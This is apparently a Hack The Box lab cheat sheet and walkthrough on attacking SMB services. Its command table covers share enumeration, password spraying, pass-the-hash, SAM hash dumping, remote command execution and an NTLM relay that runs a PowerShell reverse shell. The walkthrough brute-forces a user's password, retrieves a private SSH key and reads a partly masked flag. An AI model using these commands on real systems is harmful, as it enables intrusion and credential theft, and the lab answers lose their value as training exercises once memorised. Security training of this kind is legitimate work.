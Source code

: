 ## [Attacking SMB](https://referral.hackthebox.com/mzyGKZb)


| Command | Description |
|---------|-------------|
| `smbclient -N -L //$TARGET_IP` | Null-session testing against the SMB service. |
| `smbmap -H $TARGET_IP` | Network share enumeration using smbmap. |
| `smbmap -H $TARGET_IP -r notes` | Recursive network share enumeration using smbmap. |
| `smbmap -H $TARGET_IP --download "notes\note.txt"` | Download a specific file from the shared folder. |
| `smbmap -H $TARGET_IP --upload test.txt "notes\test.txt"` | Upload a specific file to the shared folder. |
| `rpcclient -U'%' $TARGET_IP` | Null-session with the rpcclient. |
| `./enum4linux-ng.py $TARGET_IP -A -C` | Automated enumeration of the SMB service using enum4linux-ng. |
| `crackmapexec smb $TARGET_IP -u /tmp/userlist.txt -p 'Company01!'` | Password spraying against different users from a list. |
| `impacket-psexec administrator:'Password123!'@$TARGET_IP` | Connect to the SMB service using the impacket-psexec. |
| `crackmapexec smb $TARGET_IP -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec` | Execute a command over the SMB service using crackmapexec. |
| `crackmapexec smb $TARGET_IP/24 -u administrator -p 'Password123!' --loggedon-users` | Enumerating Logged-on users. |
| `crackmapexec smb $TARGET_IP -u administrator -p 'Password123!' --sam` | Extract hashes from the SAM database. |
| `crackmapexec smb $TARGET_IP -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE` | Use the Pass-The-Hash technique to authenticate on the target host. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t $TARGET_IP` | Dump the SAM database using impacket-ntlmrelayx. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t $TARGET_IP -c 'powershell -e <base64 reverse shell>'` | Execute a PowerShell-based reverse shell using impacket-ntlmrelayx. |



## Questions:

### 1. What is the name of the shared folder with READ permissions?

```
smbmap -H $TARGET_IP
[+] IP: TARGET_IP:445	Name: TARGET                                     
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	GGJ                                               	READ ONLY	Priv
	IPC$                                              	NO ACCESS	IPC Service (attcsvc-linux Samba)

```

### 2. What is the password for the username "jason"?
* First, load pwd.list from resources.
```
crackmapexec smb $TARGET_IP -u jason -p pwd.list --local-auth
```

### 3. Login as the user "jason" via SSH and find the flag.txt file. Submit the contents as your answer.

``` 
smbclient  //$TARGET_IP/GGJ -U 'jason%$PASSWORD' -

smb: \> ls
  .                                   D        0  Tue Apr 19 16:33:55 2022
  ..                                  D        0  Mon Apr 18 12:08:30 2022
  id_rsa                              N     3381  Tue Apr 19 16:33:04 2022

		14384136 blocks of size 1024. 10088352 blocks available
smb: \> get id_rsa
getting file \id_rsa of size 3381 as id_rsa (89.2 KiloBytes/sec) (average 89.2 KiloBytes/sec)
smb: \> !cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAACFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAgEA1RKythwhDQVnsZpGDDeIWh/z0a4y5mQoIIBXOeHJM8rLNzB/fdMD
XvN+6R6s0wh/fpava2en2s/G6m8OGjjY8DbgO0A40HwzKyVEKk15tJ9QlcaqS0O77UrjW/
...
<SNIP>
....
```
```
 [★]$ ls
cacert.der  Documents  id_rsa  Pictures  pwd.list   Videos
Desktop     Downloads  Music   Public    Templates

```
```
chmod 600 id_rsa
ssh -i id_rsa jason@$TARGET_IP
cat flag.txt
HTB{SMB_*******_*********9}
```
# [Subscribe for getting more HTB Cubes!](https://referral.hackthebox.com/mzyGKZb)

